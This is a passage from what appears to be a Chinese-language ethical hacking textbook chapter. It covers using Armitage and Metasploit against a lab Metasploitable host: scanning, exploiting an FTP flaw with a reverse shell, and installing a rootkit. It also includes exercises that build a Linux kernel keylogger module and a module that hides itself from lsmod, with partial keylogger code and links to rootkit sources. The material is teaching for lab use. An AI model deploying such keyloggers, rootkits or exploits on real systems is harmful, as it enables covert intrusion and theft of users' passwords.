Armitage 是一个用于 Metasploit 框架的 GUI 界面，因此在启动 Armitage 之前，您必须确保 Metasploit 正在运行。数据库初始化完成后，通过运行以下命令启动 Metasploit：

```
kali@kali:~$ sudo msfdb init

[i] Database already started

[+] Creating database user 'msf'

[+] Creating databases 'msf'

[+] Creating databases 'msf_test'
```

现在启动 Armitage：

```
kali@kali:~$ sudo armitage &
```

第一次运行此命令时，加载过程可能需要一分钟，因此请耐心等待。加载完成后，您应该会看到一个类似于 图 11-6 的设置界面。选择所有默认选项，然后点击 **连接** 以使用本地 Metasploitable 服务器。



*图 11-6：Armitage 设置界面*

点击**是**，以启动 Metasploit 的远程过程调用（RPC）服务器，这使你可以通过 Armitage 程序化地控制 Metasploit Framework。

#### *扫描网络*

让我们首先使用 Armitage 发现工具来查找虚拟环境中的机器。点击**主机** ▶ **扫描** ▶ **快速扫描操作系统检测**，如图 11-7 所示。**快速扫描操作系统检测**选项会执行一次快速的`nmap`扫描，扫描虚拟环境。



*图 11-7：运行快速扫描的示例*

你应该会看到一个弹出窗口，要求你输入要扫描的 IP 地址范围。这个弹出窗口接受 CIDR 表示法中的地址（例如，192.168.1.0/24；有关 CIDR 的讨论，请参见第二章）。

一旦你发现了一些主机，点击主机并选择**攻击** ▶ **查找攻击**来扫描它们的漏洞（见图 11-8）。



*图 11-8：使用 Armitage 快速扫描所有地址*

漏洞扫描完成后，点击主机并选择**攻击**。你应该会看到一个可用攻击的列表。Metasploit Framework 中内置的扫描器，类似于第八章中讨论的那些，会找到可能的漏洞。漏洞扫描器会发现我们在第一章中讨论的 FTP 漏洞。图 11-9 显示了 FTP 攻击。



*图 11-9：vftpd 漏洞*

另外，你可以使用左侧的搜索框来搜索主机是否存在特定的漏洞。

#### *利用主机*

当 Armitage 攻击一个主机时，它会将有效负载上传到主机。因此，你必须配置有效负载，以便它知道如何连接到你的机器。图 11-10 显示了配置屏幕。


*图 11-10：攻击描述*

你可能已经注意到，这些选项与在第十章中使用的 Metasploit Framework 选项非常相似。这是因为 Armitage 是 Metasploit 的图形用户界面封装程序。LHOST 是控制机器的 IP 地址，LPORT 是控制机器的端口。类似地，RHOST 是你攻击的主机的 IP 地址，RPORT 是上传到主机的有效负载中包含的反向 shell 所使用的端口。点击**使用反向连接**选项，指示 Armitage 生成一个类似于我们在第四章中实现的反向 shell，然后点击**启动**以发起攻击。

一旦你的主机被攻陷，Armitage GUI 中的主机图标会发生变化。要访问该机器的 shell，右键点击主机，然后选择**Shell** ▶ **Interact**，如图 11-11 所示。Linux shell 应该会出现在窗口的底部。



*图 11-11：在 Armitage 中获取 shell 访问权限*

#### *安装 Rootkit*

现在你已获得访问权限，使用与负载关联的 shell 下载并安装 rootkit 到主机上。你可以在*[`github.com/rmusser01/Infosec_Reference/blob/master/Draft/Rootkits.md`](https://github.com/rmusser01/Infosec_Reference/blob/master/Draft/Rootkits.md)*找到一长串开源 rootkit，包含适用于 Android、Linux、Windows 和 macOS 系统的 rootkit。

### 练习

完成这些练习来练习创建内核模块。在第一个练习中，你将编写一个名为*keylogger*的内核模块，记录用户输入的所有内容，包括用户名和密码。在第二个练习中，你将扩展模块，使其能够隐藏在`lsmod`命令中。

#### *键盘记录器*

键盘记录器是常见的黑客工具，在内核中实现一个键盘记录器具有额外的优势：它使你能够悄悄地拦截所有用户的按键，无论他们使用的是哪个应用程序。

如本章之前所做，创建一个名为*keylogger_module*的新文件夹，并创建两个文件，*keylogger.c*和*Makefile*。在模块文件中，首先定义一个映射数组，它将数字键码（分配给每个键的唯一数字）映射到字符：

```
static const char* keymap[] = { "\0", "ESC", "1", "2", "3", "4", "5", "6", "7"

			 , "8", "9", "0", "-", "=", "_BACKSPACE_", "_TAB_",

                        "q", "w", "e", "r", "t", "y", "u", "i", "o", "p", "[",

			 "]", "_ENTER_", "_CTRL_", "a", "s", "d", "f",

                        "g", "h", "j", "k", "l", ";", "'", "`", "_SHIFT_", "\\"

			
			 , "z", "x", "c", "v", "b", "n", "m", ",", "."};
```

一种有趣且互动的方式来查看映射是打开终端，运行`**showkey**`命令，打开另一个应用程序如 Mousepad，然后开始输入。`showkey`命令应该会显示你按下的每个键的键码：

```
kali@kali:~$ sudo showkey --keycode
press any key (program terminates 10s after last keypress)...
keycode  28 release
keycode   2 press
keycode   2 release
keycode  35 press
keycode  35 release
keycode  48 press
keycode  48 release
```

你可能已经注意到，这些值大致按照“qwerty”键盘布局的顺序排列。由于实际键盘布局因地区和偏好而异，键盘映射将键码转换为特定的 ASCII 字符。将此键盘映射定义放在你的*keylogger.c*文件的顶部。

该模块中的`__init`和`__exit`方法非常简短。它们分别仅注册和注销一个键盘`notifier_block`结构。你可能还注意到，在这个模块中，`__init`和`__exit`方法的名字与本章中我们创建的模块不同；即，使用的是`start`和`end`而不是`startup`和`shutdown`——这些名字是任意的：

```
static int __init start(void)

{

   register_keyboard_notifier(&nb);

   printk(KERN_INFO "Keyboard Module Loaded!\n");

   return 0;

}
static void __exit end(void)

{

   unregister_keyboard_notifier(&nb);

   printk(KERN_INFO "Module Unloaded!\n");

}
```

接下来，为了在用户按下一个键时得到通知，我们必须为键盘`notifier_block`结构的一个属性指定一个值。这个结构是内核提供的 API 机制，使模块可以访问一些键盘功能。我们在这里的模块顶部定义它：

```
static struct notifier_block nb = {

 ➊.notifier_call =  ➋ notify_keypress

};
```

指定预定义结构体的值，如我们在这里所做的，是在 Linux 内核编程中常见的模式。如果你查看 Linux *notifier.h*源文件中完整的`notifier_block`结构体定义，你会注意到它指定了比我们定义的更多的属性。然而，在模块（如我们的模块）设置这些值之前，它们都被设置为`NULL`。在这里，我们通过提供函数指针`notify_keypress` ➋，为`notifier_call`属性 ➊指定了一个值。现在，每当用户按下一个键时，我们的函数就会被调用。

完成`notify_keypress`函数的实现，使其记录用户的按键操作：

```
int notify_keypress(struct notifier_block *nb, unsigned long code, void

			 *_param)

{

 ➊ struct keyboard_notifier_param *param;

    param = _param;

    if(code == KBD_KEYCODE)

    {

       if(param->down)

       {

        /*-----------------------*/

        /* Place your code here */

        /*----------------------*/

       }

    }

    return NOTIFY_OK;

}
```

`keyboard_notifier_param`结构体 ➊ 包含关于按键事件的详细信息。`keyboard_notifier_param`结构体的源代码可以在 Linux 源代码中的*keyboard.h*文件中找到。我为你提供了该文件的代码片段，便于你查看与按键事件相关的所有结构体值：

```
struct keyboard_notifier_param {

   struct vc_data *vc;

 ➊ int down;

    int shift;

    int ledstate;

 ➋ unsigned int value;

};
```

我们使用这些细节来确定何时发生`keydown`事件 ➊，并提取其`keycode` ➋。这个 keycode 成为我们键盘映射的索引。你也可以从这个结构体中读取其他细节，包括 SHIFT 键的状态和键盘 LED 的状态。尝试实现功能，将用户输入的字符添加到内核环形缓冲区。

该模块将按键操作转储到内核日志中。然而，更复杂的日志记录器可以将按键操作传输到黑客的机器上，黑客可以在上面提取凭证。

#### *自隐藏模块*

扩展内核模块，使其在安装后立即从`lsmod`命令中隐藏。我将完全交给你实现这一功能。一个很好的起点是查看其他开发者创建的内核模块。例如，Reptile 是一个文档完善的 Linux 内核模块 rootkit。你可以查看其*module.c*文件，链接地址是*[`github.com/f0rb1dd3n/Reptile/blob/master/kernel/module.c`](https://github.com/f0rb1dd3n/Reptile/blob/master/kernel/module.c)*。
